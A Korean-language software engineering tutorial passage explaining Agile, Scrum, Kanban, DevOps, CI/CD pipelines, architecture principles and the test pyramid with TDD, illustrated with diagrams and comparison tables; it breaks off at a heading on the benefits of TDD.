2001년 미국 유타주 스노우버드에 17명의 저명한 소프트웨어 전문가들(켄트 백, 마틴 파울러, 로버트 C. 마틴, 켄 슈와버, 제프 서덜랜드 등)이 모였습니다. 그들은 무겁고 관료적인 프로세스에서 벗어나, 빠르게 변화하는 환경에 민첩하고 유연하게 대처할 수 있는 새로운 개발 철학을 담아 **애자일 선언문(Agile Manifesto)**을 발표했습니다.

---

### 3.2 애자일 선언문의 4대 핵심 가치와 12대 원칙

애자일은 특정 툴이나 규정집이 아니라 **가치와 철학의 선언**입니다.

```
┌─────────────────────────────────────────────────────────────┐
│                   애자일 선언문의 4대 가치                  │
├─────────────────────────────┬───────────────────────────────┤
│    왼쪽 항목보다...         │    오른쪽 항목에 '더 큰 가치'를 둔다  │
├─────────────────────────────┼───────────────────────────────┤
│ • 공정과 도구              │ ➜  개인과 상호작용            │
│ • 포괄적인 문서             │ ➜  작동하는 소프트웨어        │
│ • 계약 협상                │ ➜  고객과의 협력              │
│ • 계획을 따르기            │ ➜  변화에 대응하기            │
└─────────────────────────────┴───────────────────────────────┘
```
> [!IMPORTANT]
> 애자일 선언문은 왼쪽의 가치(도구, 문서, 계약, 계획)를 완전히 무시하라는 뜻이 아닙니다. 왼쪽 항목도 가치가 있지만, 불확실성이 지배하는 현대 비즈니스에서는 **오른쪽 항목(인간 중심의 소통, 실제로 동작하는 코드, 지속적인 협력, 민첩한 피드백 수용)에 더 높은 우선순위**를 두어야 프로젝트가 성공한다는 뜻입니다.

#### 애자일의 12대 핵심 원칙 요약
1. 가치 있는 소프트웨어를 조기에 지속적으로 제공하여 고객을 만족시킨다.
2. 개발 후반부일지라도 요구사항 변경을 환영하라.
3. 작동하는 소프트웨어를 몇 주에서 몇 개월 주기로 짧게 자주 배포하라.
4. 비즈니스 담당자와 개발자는 프로젝트 기간 내내 매일 함께 일해야 한다.
5. 동기부여된 팀원들을 중심으로 프로젝트를 구성하고 신뢰와 환경을 지원하라.
6. 팀 내외로 정보를 전달하는 가장 효과적인 방법은 얼굴을 마주보고 대화하는 것이다.
7. 작동하는 소프트웨어가 진척도의 주된 척도이다.
8. 지속 가능한 개발 속도를 유지하여 야근과 번아웃을 방지하라.
9. 우수한 기술과 훌륭한 설계에 대한 지속적인 관심이 민첩성을 향상시킨다.
10. 단순성(단순함), 즉 하지 않아도 될 일의 양을 최대화하는 기술이 필수적이다.
11. 최고의 아키텍처, 요구사항, 설계는 자기조직화(Self-organizing)된 팀에서 나온다.
12. 팀은 정기적으로 더 효과적인 방법을 되돌아보고(회고), 행동을 조율하고 조정한다.

---

### 3.3 스프린트 중심의 스크럼(Scrum)
애자일 철학을 구체적인 실천 규칙으로 구현한 가장 대표적인 프레임워크가 바로 **스크럼(Scrum)**입니다. 럭비 경기에서 팀원들이 어깨를 겯고 한 덩어리가 되어 전진하는 대형에서 이름을 따왔습니다.

```mermaid
flowchart LR
    PB["제품 백로그\n(Product Backlog)"] -->|스프린트 계획 회의| SB["스프린트 백로그\n(Sprint Backlog)"]
    SB --> Sprint["스프린트 (Sprint)\n(1~4주 주기 개발)"]
    subgraph Daily ["매일 수행"]
        Sprint <--> Standup["데일리 스크럼\n(Daily Standup 15분)"]
    end
    Sprint --> Inc["작동하는 제품 증분\n(Potentially Shippable Increment)"]
    Inc --> Review["스프린트 리뷰\n(시연 및 피드백)"]
    Review --> Retro["스프린트 회고\n(Retrospective: 프로세스 개선)"]
    Retro -.->|다음 스프린트에 개선 반영| PB
```

#### 스크럼의 3대 역할 (Roles)
- **제품 책임자 (Product Owner, PO):** 제품의 비즈니스 가치를 극대화하는 책임자입니다. 무엇을 먼저 개발할지 결정하는 우선순위가 매겨진 **제품 백로그(Product Backlog)**를 관리합니다.
- **스크럼 마스터 (Scrum Master, SM):** 팀이 스크럼 원칙을 잘 준수하도록 돕고, 개발을 가로막는 장애물(외부 간섭, 리소스 부족 등)을 제거해 주는 서번트 리더(Servant Leader)입니다.
- **개발팀 (Development Team):** 디자이너, 프론트엔드, 백엔드, QA 등 교차 기능(Cross-functional)을 갖춘 5~9명의 팀원으로, 스프린트 백로그를 스스로 분배하고 구현합니다.

#### 스크럼의 4대 의식 (Events)
1. **스프린트 계획 회의(Sprint Planning):** 이번 스프린트(보통 2주) 동안 달성할 목표(Sprint Goal)를 세우고 제품 백로그에서 팀의 역량(Velocity)에 맞게 스프린트 백로그로 작업을 가져옵니다.
2. **데일리 스크럼(Daily Scrum / Stand-up):** 매일 아침 전원이 서서 15분 이내로 진행합니다. *"어제 한 일, 오늘 할 일, 겪고 있는 장애물"* 세 가지만 간단히 공유하여 싱크를 맞춥니다.
3. **스프린트 리뷰(Sprint Review):** 스프린트 마지막 날, 스테이크홀더(이해관계자)들을 모아놓고 이번에 실제로 구현되어 작동하는 소프트웨어를 시연(Demo)하고 피드백을 수집합니다.
4. **스프린트 회고(Sprint Retrospective):** 팀원들끼리만 모여 지난 2주간의 프로세스, 팀워크, 도구 사용 방식을 되돌아봅니다. 잘한 점(Keep), 아쉬운 점(Problem), 다음 스프린트에 시도할 개선안(Try)을 도출합니다.

---

### 3.4 시각화와 흐름 중심의 칸반(Kanban)
스크럼이 2주라는 고정된 **타임박스(Timebox)**를 기반으로 움직인다면, **칸반(Kanban)**은 **연속적인 흐름(Continuous Flow)**을 최적화하는 방법론입니다. 일본 도요타 생산 방식(TPS)의 저스트 인 타임(JIT) 간판 시스템에서 유래했습니다.

```
┌────────────────────────────────────────────────────────────────────────┐
│                              칸반 보드 예시                             │
├───────────────┬──────────────────────┬─────────────────┬───────────────┤
│ To Do (대기)   │ In Progress (진행 중)│ Testing (테스트) │ Done (완료)    │
│               │ [WIP Limit: 3]       │ [WIP Limit: 2]  │               │
├───────────────┼──────────────────────┼─────────────────┼───────────────┤
│ [알림 푸시 기능]│ [회원가입 API]       │ [결제 연동]     │ [로그인 화면]  │
│ [검색 필터 추가]│ [장바구니 리팩토링]   │ [프로필 수정]   │ [DB 마이그레이션]
│ [배너 광고 배치]│ [비밀번호 재설정]    │                 │               │
└───────────────┴──────────────────────┴─────────────────┴───────────────┘
```

#### 칸반의 3대 핵심 실천법
1. **작업의 시각화(Visualize the Workflow):** 보이지 않는 지식 노동의 특성을 극복하기 위해 모든 태스크를 카드 형태로 보드에 올려 누구에게 어떤 일이 밀려있는지 한눈에 드러냅니다.
2. **WIP(Work In Progress, 진행 중인 작업) 제한:** 동시에 진행할 수 있는 작업의 최대 개수를 칼럼마다 엄격히 제한합니다. 새로운 일을 시작(Start)하기 전에 지금 하고 있는 일부터 끝내(Finish)도록 강제하여 멀티태스킹 비용을 없앱니다.
3. **흐름(Flow) 관리 및 사이클 타임 단축:** 요구사항 접수부터 배포까지 걸리는 전체 시간(Lead Time)과 실제 작업 착수부터 완료까지 걸리는 시간(Cycle Time)을 측정하여 병목 구간을 지속적으로 뚫어냅니다.

---

### 3.5 폭포수(Waterfall) vs 애자일(Agile) 실무 비교표

| 비교 항목 | 폭포수(Waterfall) 모델 | 애자일(Agile) 방법론 |
| :--- | :--- | :--- |
| **철학적 접근** | "완벽한 계획과 통제를 통해 예측 가능성을 높인다" | "변화를 필연으로 인정하고 빠른 피드백으로 적응한다" |
| **요구사항 확정** | 프로젝트 초기에 확정하고 이후 변경을 통제(Change Request)함 | 프로젝트 진행 중에도 지속적으로 수정, 추가, 재정의됨 |
| **문서와 산출물** | 방대한 명세서, 설계 보고서, 요구 추적표 중심 | 실제로 작동하는 소프트웨어와 자동화된 테스트 코드 중심 |
| **배포 및 출시** | 프로젝트의 가장 마지막 단계에서 단 한 번 대규모 출시(Big-Bang) | 1~4주마다 작게 쪼개어 지속적으로 출시 및 프로덕션 증분 제공 |
| **고객의 참여** | 프로젝트 착수(요구정의)와 완료(인수테스트) 시점에만 참여 | 프로젝트 전 주기에 걸쳐 PO나 사용자 피드백이 매주 반영됨 |
| **리스크 발견 시점** | 후반부 통합/테스트 단계에서 대형 결함이 한꺼번에 터짐 | 매 스프린트마다 작동을 확인하므로 리스크가 초기에 지속 노출됨 |
| **적합한 프로젝트** | 요구사항이 명확하고 변경 가능성이 적은 공공 SI, 철도/의료 하드웨어 임베디드 | 시장 반응을 빠르게 검증해야 하는 스타트업, 웹/모바일 서비스, SaaS |

---

## 04. DevOps도 개발 방법론인가요?

### 4.1 개발(Dev)과 운영(Ops)의 깊은 골: '사일로 효과(Silo Effect)'
애자일 방법론이 도입되면서 개발팀(Development)은 매주 새로운 기능을 뚝딱뚝딱 만들어낼 수 있게 되었습니다. 하지만 소프트웨어가 고객에게 전달되려면 인프라를 프로비저닝하고, 서버에 배포하고, 모니터링을 담당하는 **운영팀(Operations)**을 거쳐야만 했습니다. 여기서 심각한 조직적 장벽이 드러납니다.

```
┌────────────────────────┐                ┌────────────────────────┐
│     개발팀 (Dev)       │                │      운영팀 (Ops)      │
│  "빠르게 변화하라!"    │                │  "절대 장애를 내지마!" │
├────────────────────────┤   혼돈의 벽    ├────────────────────────┤
│ • 새로운 기능 릴리스   │  (Wall of      │ • 시스템 안정성 유지   │
│ • 코드의 빠른 변경 추구│   Confusion)   │ • 변경(Change)은 곧 리스크
│ • 스프린트 목표 달성   │ ══════════════>│ • 무중단 가동률(99.99%)│
└────────────────────────┘  "벽 너머로    └────────────────────────┘
                             던지기!"
```

- **개발팀의 KPI:** "얼마나 빠르고 많은 기능을 배포했는가?"
- **운영팀의 KPI:** "얼마나 다운타임(Downtime) 없이 시스템을 안정적으로 유지했는가?"

목표가 상충되다 보니 개발팀은 코드를 대충 패키징하여 운영팀 담장 너머로 집어던지고(`"내 로컬 컴퓨터에서는 잘 돌아갔는데요?"`), 운영팀은 안정성을 핑계로 배포 요청 승인을 몇 주씩 미루거나 장애 발생 시 서로 책임을 전가하는 **사일로 효과(Silo Effect, 부서 이기주의)**가 발생했습니다.

---

### 4.2 DevOps의 정의: 문화, 철학, 그리고 실천의 삼위일체
**DevOps(Development + Operations)**는 이러한 개발과 운영의 장벽을 허물고, 아이디어의 탄생부터 실제 프로덕션 환경의 안정적 서비스 운영까지 하나의 통합된 흐름으로 연결하려는 패러다임입니다.

> **"DevOps는 특정 도구(Docker, Kubernetes 등)나 특정 직군을 의미하는 단어가 아닙니다. DevOps는 조직의 문화(Culture)이자, 일하는 철학(Philosophy)이며, 이를 뒷받침하는 기술적 실천(Practice)의 결합입니다."**

아마존의 CTO 버너 보겔스(Werner Vogels)는 DevOps의 본질을 한 문장으로 정의했습니다.
> *"You build it, you run it (당신이 만든 서비스는 당신이 직접 운영하라)."*

개발자가 자신이 짠 코드가 어떻게 배포되고 모니터링되는지 책임지고, 운영자는 개발자가 안전하고 빠르게 배포할 수 있는 셀프서비스 플랫폼을 구축함으로써 양 팀은 하나의 공통된 목표(비즈니스 가치의 신속하고 안정적인 전달)를 공유하게 됩니다.

---

### 4.3 CALMS 프레임워크로 본 DevOps의 5대 기둥
DevOps 운동의 선구자인 존 윌리스(John Willis)와 제즈 험블(Jez Humble)은 성공적인 DevOps 도입을 위한 프레임워크로 **CALMS** 모델을 제시했습니다.

```mermaid
mindmap
  root((DevOps: CALMS))
    C["Culture (문화)"]
      신뢰와 협업
      비난 없는 사후 분석(Blameless Post-mortem)
      공유된 책임
    A["Automation (자동화)"]
      CI/CD 파이프라인
      코드형 인프라 (IaC)
      테스트 및 배포 자동화
    L["Lean (린)"]
      작은 배치(Small Batch) 배포
      프로세스 내 낭비 제거
      빠른 피드백 루프
    M["Measurement (측정)"]
      DORA 4대 핵심 지표
      서버 및 비즈니스 메트릭
      APM 및 로그 가시성
    S["Sharing (공유)"]
      지식과 베스트 프랙티스 전파
      장애 경험의 투명한 자산화
      교차 기능 협업
```

1. **Culture (문화):** 도구보다 먼저 조직 문화가 바뀌어야 합니다. 실패를 숨기거나 담당자를 징계하는 문화에서는 누구도 과감하게 배포하지 못합니다. 장애가 발생했을 때 개인을 비난하는 대신 시스템의 취약점을 분석하는 **'비난 없는 사후 분석(Blameless Post-mortem)'**이 핵심입니다.
2. **Automation (자동화):** 사람이 수동으로 서버에 접속해 커맨드를 치고 파일을 복사하는 행위는 휴먼 에러의 온상입니다. 빌드, 테스트, 인프라 생성, 배포 전 과정을 코드로 자동화합니다.
3. **Lean (린):** 제조업의 린 생산 방식처럼 한 번에 거대한 릴리스를 하지 않고, **작은 단위(Small Batch)**로 쪼개어 매일 혹은 하루에도 수십 번씩 배포함으로써 변경 단위의 위험을 최소화합니다.
4. **Measurement (측정):** 개선하려면 측정할 수 있어야 합니다. 구글 DevOps 연구 조직(DORA)이 제시한 4대 핵심 지표(배포 빈도, 변경 리드 타임, 변경 실패율, 서비스 복구 시간)를 지속적으로 추적합니다.
5. **Sharing (공유):** 장애 원인, 성능 개선 팁, 배포 노하우를 팀과 조직 전체에 투명하게 위키와 슬랙으로 공유합니다.

---

## 05. CI/CD는 무슨 일을 하는 건가요?

### 5.1 CI (Continuous Integration, 지속적 통합)
과거에는 개발자들이 각자 몇 주, 몇 달 동안 자기 브랜치에서 코드를 작성한 뒤, 마감 직전에 메인 코드베이스에 한꺼번에 합쳤습니다. 이때 발생하는 것이 그 악명 높은 **'통합 지옥(Integration Hell)'**이었습니다.

수백 개의 파일에서 소스코드 충돌이 나고, 누구의 코드가 시스템을 깨뜨렸는지 파악하는 데만 수일이 걸렸습니다.

```
[통합 지옥 (Integration Hell)]
개발자 A ─────(3주 동안 혼자 코딩)─────┐
개발자 B ─────(3주 동안 혼자 코딩)─────┼──> [동시 Merge 시도] ──> 대폭발 (수백 건 충돌 & 버그)
개발자 C ─────(3주 동안 혼자 코딩)─────┘
```

**지속적 통합(CI)**은 이를 방지하기 위한 실천법입니다.
> *"모든 개발자가 작업한 코드를 하루에 최소 1회 이상 메인 공유 브랜치(Main/Trunk)에 지속적으로 통합하고, 통합할 때마다 자동으로 빌드와 테스트를 실행하여 결함을 10분 이내에 찾아낸다."*

#### CI의 3단계 핵심 프로세스
1. **코드 커밋 & 푸시:** 개발자가 작은 단위로 기능을 완성하고 원격 저장소에 PR(Pull Request)을 생성하거나 머지합니다.
2. **자동 빌드:** CI 서버가 코드를 내려받아 컴파일하고 패키징합니다.
3. **자동화된 단위/통합 테스트 실행:** 사전에 작성된 수백~수천 개의 테스트 슈트를 돌려 새로 추가된 코드가 기존 기능을 망가뜨리지 않았는지(회귀 버그 방지) 100% 기계적으로 검증합니다.

> [!TIP]
> **CI 문화의 황금률:** CI 파이프라인에서 빌드나 테스트가 실패하여 '빨간 불'이 들어오면, 팀의 모든 개발자는 즉시 새로운 기능 개발을 멈추고 빌드를 정상화하는 데 최우선 순위를 두어야 합니다.

---

### 5.2 CD: 지속적 제공(Continuous Delivery) vs 지속적 배포(Continuous Deployment)

CI를 통과한 소프트웨어를 운영 환경으로 안전하게 릴리스하는 과정을 자동화한 것이 바로 **CD**입니다. 실무에서는 CD를 두 단계의 성숙도로 구분합니다.

```mermaid
flowchart LR
    subgraph CI ["지속적 통합 (CI)"]
        Code["코드 작성"] --> Build["빌드"] --> Test["단위/통합 테스트"]
    end

    subgraph CD_Delivery ["지속적 제공 (Continuous Delivery)"]
        Test --> Staging["스테이징 배포"] --> E2E["인수/E2E 테스트"]
        E2E --> Ready["언제든 출시 가능한 상태 (Artifact)"]
    end

    subgraph CD_Deployment ["지속적 배포 (Continuous Deployment)"]
        Ready -->|비즈니스 판단 후 수동 승인 버튼| ManualProd["운영 환경 배포"]
        Ready -->|모든 과정 전자동화| AutoProd["운영 환경 배포"]
    end
```

- **지속적 제공 (Continuous Delivery):** 소스코드가 테스트를 거쳐 스테이징 서버까지 완전 자동으로 배포되고 검증되지만, **최종 프로덕션(운영) 서버로 나가는 마지막 배포 스위치 클릭은 사람이 결정**합니다. 비즈니스 런칭 일정이나 마케팅 타임라인을 조율해야 할 때 적합합니다.
- **지속적 배포 (Continuous Deployment):** 개발자가 메인 브랜치에 코드를 머지하고 CI 파이프라인을 통과하는 순간, **사람의 개입(승인 절차) 없이 100% 전자동으로 프로덕션 서버에 즉시 릴리스**됩니다. 넷플릭스, 아마존, 토스 같은 성숙한 테크 기업들이 하루에도 수백 번 배포할 수 있는 비결입니다.

---

### 5.3 엔드투엔드 CI/CD 파이프라인 흐름도

현대적인 클라우드 네이티브 환경에서 작동하는 빌드-테스트-배포 파이프라인의 전체 라이프사이클을 살펴보겠습니다.

```mermaid
sequenceDiagram
    autonumber
    actor Dev as 개발자 (Developer)
    participant Git as GitHub (VCS)
    participant CI as CI Runner (GitHub Actions / Jenkins)
    participant Reg as 컨테이너 레지스트리 (Docker Hub / ECR)
    participant Stage as 스테이징 환경 (Kubernetes)
    participant Prod as 프로덕션 환경 (운영 클러스터)

    Dev->>Git: git push (Feature Branch -> PR 생성)
    Git->>CI: Webhook 이벤트 발송 (PR Trigger)
    activate CI
    CI->>CI: 1. 의존성 설치 & 린트(Lint) 검사
    CI->>CI: 2. 단위 테스트(Unit Tests) 실행
    CI->>CI: 3. 정적 코드 분석(SonarQube) & 보안 취약점 스캔
    CI->>CI: 4. 애플리케이션 컴파일 & 빌드
    CI-->>Git: PR 통과 체크 표시 (Green Light ✅)
    deactivate CI

    Dev->>Git: PR 코드 리뷰 완료 후 Merge to Main
    Git->>CI: Main 브랜치 푸시 이벤트 트리거
    activate CI
    CI->>CI: 5. Docker 컨테이너 이미지 빌드
    CI->>Reg: 6. 태그가 지정된 이미지 푸시 (v1.4.2)
    CI->>Stage: 7. 스테이징 서버 배포 (kubectl apply)
    deactivate CI

    Stage->>Stage: 8. 통합/E2E 테스트 자동 실행
    Note over Stage, Prod: 품질 검증 통과 (승인 또는 전자동)
    CI->>Prod: 9. 카나리 / 블루그린 무중단 배포 수행
    Prod->>Dev: 배포 완료 알림 (Slack / Teams Webhook)
```

---

### 5.4 대표적인 CI/CD 도구 비교: Jenkins vs GitHub Actions

| 비교 항목 | 젠킨스 (Jenkins) | 깃허브 액션 (GitHub Actions) |
| :--- | :--- | :--- |
| **운영 형태** | 온프레미스 / 자체 호스팅 (Self-Hosted) | SaaS 완전 관리형 (Cloud Native) + 자체 러너 지원 |
| **등장 시기** | 2011년 (Hudson 포크) ~ 전통적 CI의 절대강자 | 2019년 공식 출시 ~ 현대 소프트웨어 개발의 표준화 |
| **설정 방식** | 웹 UI 설정 및 Groovy 기반의 `Jenkinsfile` | 저장소 내 `.github/workflows/*.yml` 파일로 선언 |
| **장점** | • 수천 개의 오픈소스 플러그인 생태계<br>• 온프레미스 폐쇄망 환경에 완벽 대응<br>• 복잡한 대규모 커스텀 파이프라인 구축 가능 | • GitHub 저장소와 완벽한 일체감 (PR, 이슈 연동)<br>• 마켓플레이스에서 전 세계 액션을 레고처럼 재사용<br>• 별도의 마스터 서버 관리 및 패치 부담 없음 |
| **단점 및 한계** | • 마스터/에이전트 서버를 직접 유지보수해야 함<br>• 플러그인 간 버전 충돌 및 보안 취약점 관리 부담 | • 대규모 실행 시 비용 발생 (무료 쿼터 초과 시)<br>• GitHub 플랫폼 종속성 |
| **추천 환경** | 망분리가 엄격한 금융/공공 기관, 자체 데이터센터 운영사 | 신규 스타트업, 오픈소스 프로젝트, GitHub 중심 팀 |

---

## 06. 소프트웨어 아키텍처라는 것은 무엇일까요?

### 6.1 건축 설계도 비유로 이해하는 소프트웨어 아키텍처
집을 지을 때 벽지를 무슨 색으로 바를지, 문고리를 어떤 디자인으로 달지는 살아가면서 언제든 쉽게 바꿀 수 있습니다. 하지만 건물이 지진에 버티도록 철근 콘크리트 골조를 어떻게 세울지, 상하수도 배관을 어디로 매립할지, 엘리베이터 통로를 어디에 둘지는 한 번 건물을 완공하고 나면 뜯어고치기가 불가능에 가깝습니다.

소프트웨어도 똑같습니다. 변수 이름을 바꾸거나 함수의 `if` 문 로직을 다듬는 것은 비용이 거의 들지 않습니다. 그러나 모놀리식으로 짠 시스템을 마이크로서비스로 쪼개거나, 관계형 DB(RDBMS)를 NoSQL 이벤트 스트리밍 방식으로 전면 개편하는 일은 수억 원의 비용과 수개월의 시간이 소요됩니다.

> **"소프트웨어 아키텍처란, 프로젝트 초기에 결정해야 하는 '나중에 바꾸기 극도로 어렵고 비용이 많이 드는 중요한 시스템 설계와 구조적 결정의 집합'이다."**  
> — 마틴 파울러(Martin Fowler) & 랠프 존슨(Ralph Johnson)

---

### 6.2 기능적 요구사항 vs 비기능적 요구사항
소프트웨어 요구사항은 크게 두 가지로 나뉩니다.

```
┌────────────────────────────────────────────────────────┐
│                   소프트웨어 요구사항                  │
├───────────────────────────┬────────────────────────────┤
│    기능적 요구사항        │     비기능적 요구사항      │
│  (Functional Requirements)│(Non-Functional Requirements)│
├───────────────────────────┼────────────────────────────┤
│ • "무엇을 하는가?"        │ • "어떻게 동작하는가?"     │
│ • 사용자 관점의 비즈니스  │ • 시스템의 품질 속성       │
│ • 예: 회원가입, 결제,     │ • 예: 초당 10만 건 처리,   │
│   장바구니 담기, 검색      │   99.99% 가용성, 암호화,   │
│                           │   수평적 오토스케일링      │
└───────────────────────────┴────────────────────────────┘
```

**아키텍처의 형태를 실질적으로 결정짓는 것은 기능적 요구사항이 아니라 비기능적 요구사항(품질 속성)입니다.** 
단순히 "게시판에 글을 쓰고 읽는다"는 기능은 신입 개발자가 혼자서 하루 만에 만들 수 있습니다. 그러나 **"전 세계 1억 명의 동시 접속자가 글을 쓰더라도 0.1초 내에 응답해야 하고(성능/확장성), 특정 데이터센터에 화재가 나도 데이터가 유실되지 않아야 한다(가용성/재해복구)"**는 비기능적 요구사항이 붙는 순간, 시스템 아키텍처는 캐싱 레이어(Redis), 글로벌 분산 데이터베이스, 로드밸런서, 비동기 메시지 큐(Kafka)가 결합된 고도의 복잡한 아키텍처로 진화하게 됩니다.

---

### 6.3 좋은 아키텍처를 만드는 핵심 원칙과 트레이드오프(Trade-off)

#### 1. 관심사의 분리 (Separation of Concerns, SoC)
하나의 소프트웨어를 서로 중첩되지 않는 고유한 역할을 가진 부분들로 분할하는 원칙입니다. UI 표현 로직, 비즈니스 연산 로직, 데이터베이스 영속성 로직이 한 덩어리로 섞여 있으면 코드 변경 시 파급력을 제어할 수 없습니다.

#### 2. 높은 응집도(High Cohesion)와 낮은 결합도(Low Coupling)
- **높은 응집도:** 관련된 기능과 데이터는 하나의 모듈 안에 끈끈하게 뭉쳐 있어야 합니다. 변경이 일어날 때 해당 모듈 하나만 수정하면 됩니다.
- **낮은 결합도:** 모듈과 모듈 사이의 의존성은 최소화하고 명확한 인터페이스를 통해서만 상호작용해야 합니다. 모듈 A를 교체하거나 수정해도 모듈 B에 영향이 가지 않아야 합니다.

#### 3. 아키텍처는 '트레이드오프(Trade-off)'의 예술이다
> **소프트웨어 공학의 제1법칙:** 모든 아키텍처 결정에는 정답(Silver Bullet)이 없다. 오직 트레이드오프만 존재할 뿐이다.

- 시스템의 유연성과 추상화를 높이면 ➜ 코드가 복잡해지고 초기 개발 속도가 느려집니다.
- 단일 데이터베이스로 단순함을 유지하면 ➜ 시스템의 처리 용량(확장성)에 한계가 옵니다.
- 서비스를 마이크로서비스(MSA)로 쪼개어 배포 독립성을 얻으면 ➜ 네트워크 지연, 분산 트랜잭션의 일관성 유지, 모니터링의 난이도가 기하급수적으로 폭증합니다.

훌륭한 아키텍트는 "유행하는 최신 기술"을 무조건 도입하는 사람이 아니라, 현재 비즈니스의 규모와 팀의 역량, 예산 제약 속에서 **가장 적절한 기회비용을 저울질하여 최선의 균형점을 선택하는 사람**입니다.

---

### 6.4 주요 소프트웨어 아키텍처 패턴의 진화

```mermaid
flowchart TD
    A["계층형 아키텍처\n(Layered Architecture)\n- 단순함, 관심사 분리"] --> B["클린 / 헥사고날 아키텍처\n(Clean / Hexagonal)\n- 도메인 중심, 외부 인프라와 결합 분리"]
    
    C["모놀리식 아키텍처\n(Monolithic)\n- 단일 배포 단위, 초기 생산성"] --> D["마이크로서비스 아키텍처\n(Microservices Architecture, MSA)\n- 서비스별 독립 배포 및 확장성"]
```

- **계층형 아키텍처(Layered Architecture):** 프레젠테이션 계층(Controller) ➔ 비즈니스 로직 계층(Service) ➔ 데이터 접근 계층(Repository)으로 책임을 수직 분리하는 가장 친숙하고 표준적인 구조입니다.
- **클린 / 헥사고날 아키텍처 (Ports & Adapters):** 핵심 비즈니스 도메인(Entity, Use Case)을 시스템의 중심에 두고, 데이터베이스나 웹 프레임워크는 외부 세부사항(Adapter)으로 취급하여 비즈니스 로직이 외부 기술 스택에 종속되지 않도록 의존성을 역전(Dependency Inversion)시킵니다.
- **모놀리식 vs MSA:** 전체 시스템을 하나의 실행 파일로 빌드하여 배포하는 모놀리식(Monolith)에서, 도메인 경계(Bounded Context)를 기준으로 수십~수백 개의 독립 서비스로 나누어 운영하는 마이크로서비스 아키텍처(MSA)로 현대 대규모 시스템은 진화하고 있습니다.

---

## (+) 부록 A: 테스트는 왜 중요한가요? (단위 테스트와 통합 테스트)

### 1. 테스트 코드가 없는 개발의 비극: '배포 공포증'
테스트 코드가 작성되지 않은 프로젝트에서 일하는 개발팀은 시간이 지날수록 심각한 공포에 시달립니다.
- 새로운 기능을 추가했는데, 3년 전에 작성된 엉뚱한 결제 모듈에서 버그가 터집니다.
- 코드를 리팩토링하여 더 깔끔하게 정리하고 싶어도, 어디가 깨질지 두려워 아무도 기존 레거시 코드를 건드리지 못합니다.
- 금요일 오후에는 절대 배포하지 못하고, 배포할 때마다 온 팀원이 야근하며 수동으로 화면을 클릭해 보아야 합니다.

테스트 코드는 단순히 버그를 잡는 도구가 아닙니다. 테스트 코드는 **개발자가 미래의 자신과 동료에게 제공하는 최고의 '안전망(Safety Net)'**입니다.

---

### 2. 마이크 콘의 테스트 피라미드(Test Pyramid)

소프트웨어 테스팅의 대가 마이크 콘(Mike Cohn)은 테스트의 비용과 속도, 신뢰성을 고려하여 테스트 스위트를 피라미드 형태로 구성해야 한다고 역설했습니다.

```
                  ┌───────────────┐
                 /     UI /                ▲ 비용 高, 속도 慢, 유지보수 어려움
                /   E2E Tests              │ (실제 브라우저 화면 클릭)
               ├─────────────────────┤      │
              /    통합 테스트             │ (모듈 간 결합, DB/외부 API 연동)
             /  (Integration Tests)       │
            ├───────────────────────────┤   │
           /         단위 테스트           │ 비용 低, 속도 快 (수 밀리초),
          /         (Unit Tests)          │ 수천 개 작성 가능 (결함 격리 우수)
         └─────────────────────────────────┘ 
```

#### 1) 단위 테스트 (Unit Test) - 피라미드의 튼튼한 기반
- **대상:** 함수, 클래스, 메서드와 같이 소프트웨어의 가장 작은 독립된 단위.
- **특징:** 외부 데이터베이스, 네트워크, 파일 시스템과 철저히 격리(Mocking/Stubbing 사용)되어 실행됩니다. 수천 개의 단위 테스트도 단 몇 초 만에 돌아가야 합니다.
- **목적:** 특정 알고리즘과 비즈니스 룰이 설계대로 정확한 입력에 대해 올바른 출력을 반환하는지 검증합니다.

#### 2) 통합 테스트 (Integration Test) - 모듈 간의 협력 검증
- **대상:** 단위 모듈들이 서로 맞물려 돌아갈 때 발생하는 상호작용.
- **특징:** 실제 인메모리 데이터베이스(H2, Testcontainers)에 SQL 쿼리를 날려 데이터가 제대로 저장되는지, 스프링 컨텍스트가 정상적으로 빈을 주입하는지 등을 검증합니다.
- **목적:** 단위 테스트로는 잡아낼 수 없는 인터페이스 규격 불일치, DB 제약조건 위반, 직렬화/역직렬화 오류를 적출합니다.

#### 3) E2E 테스트 (End-to-End / Acceptance Test) - 사용자의 시선
- **대상:** 실제 사용자의 유저 저니(User Journey).
- **특징:** Cypress, Playwright, Selenium 같은 도구를 사용해 가상 브라우저를 띄우고 사용자가 로그인하고, 상품을 장바구니에 담고, 결제 버튼을 누르는 전 과정을 처음부터 끝까지 시뮬레이션합니다.
- **목적:** 모든 시스템 인프라와 프론트-백엔드가 통합된 상태에서 비즈니스 시나리오가 완결되는지 최종 점검합니다.

> [!CAUTION]
> **아이스크림 콘 안티패턴(Ice Cream Cone Anti-pattern):** 단위 테스트는 거의 없고, 모든 검증을 무겁고 깨지기 쉬운 수동 QA나 E2E 테스트에만 의존하는 형태입니다. 빌드 시간이 수십 분으로 늘어나고, 작은 화면 변경에도 테스트가 와장창 깨지며, 버그가 발생해도 어느 컴포넌트가 원인인지 찾기 위해 수 시간을 낭비하게 됩니다.

---

### 3. TDD(테스트 주도 개발, Test-Driven Development)의 본질

많은 사람들이 TDD를 "테스트를 많이 작성하는 테스팅 기법"으로 오해합니다. 하지만 TDD의 창시자 켄트 백(Kent Beck)은 TDD가 본질적으로 **'설계 기법(Design Technique)'**이라고 말합니다.

TDD는 **실제 구현 코드를 한 줄도 작성하기 전에, 실패하는 테스트 코드부터 먼저 작성**하는 독특하고 강력한 규율입니다.

```mermaid
stateDiagram-v2
    [*] --> RED: 실패하는 테스트 작성
    RED --> GREEN: 가장 빠르고 단순하게 테스트 통과
    GREEN --> REFACTOR: 중복 제거 및 클린 코드로 개선
    REFACTOR --> RED: 다음 기능의 실패하는 테스트 작성
```

1. **RED (실패):** 아직 존재하지도 않는 기능에 대해 기대하는 동작을 정의한 테스트 코드를 작성합니다. 구현 코드가 없으므로 컴파일 에러나 실행 실패(빨간 불)가 발생하는 것이 정상입니다.
2. **GREEN (성공):** 오직 테스트를 통과하기 위한 목적만을 가진 가장 단순한 코드를 작성합니다. 심지어 상수를 하드코딩해서 통과시켜도 괜찮습니다(초록 불).
3. **REFACTOR (리팩토링):** 테스트가 통과하는 안전망이 확보되었으므로, 코드의 중복을 제거하고 가독성을 높이며 설계를 우아하게 다듬습니다. 이때 작성해 둔 테스트가 깨지지 않는지 계속 확인합니다.

#### TDD가 주는 압도적인 혜택
